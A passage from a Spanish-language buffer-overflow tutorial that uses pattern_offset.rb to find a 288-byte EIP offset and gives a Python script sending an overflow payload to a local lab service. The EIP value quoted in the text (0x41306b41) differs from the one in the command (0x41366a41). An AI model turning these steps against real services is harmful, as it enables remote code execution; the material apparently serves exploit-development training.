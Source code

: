 Veremos que hemos conseguido pasarnos del `buffer` y nos muestra la direccion de memoria que nos importa llamado `EIP` que seria `0x41306b41`.

### Identificación del Offset

Para determinar el desplazamiento exacto (`offset`) donde ocurre la `sobrescritura`, usamos `pattern_offset.rb`, proporcionando la dirección en hexadecimal obtenida en `EIP`:

> Host

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41366a41
```

Info:

```
[*] Exact match at offset 288
```

Esto indica que el `offset` es de `288` bytes, por lo que haremos lo siguiente, para automatizar todo este proceso:

> step2.py

Creamos un nuevo script que utiliza el `offset` para sobrescribir el registro `EIP` con un valor controlado (`BBBB`):

```python
#!/usr/bin/python3

import socket

target_ip = "127.0.0.1"
target_port = 20201

buffer_size = 288
padding = b"A" * buffer_size
eip_override = b"B" * 4

crafted_payload = padding + eip_override

def send_payload():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((target_ip, target_port))
        sock.send(b"Data Input: " + crafted_payload + b"\r\n")

if __name__ == '__main__':
    send_payload()
```

Antes, tendremos que hacer lo siguiente en `GDB` para iniciar la aplicacion:

> gdb (pwndbg)

```shell
run
```
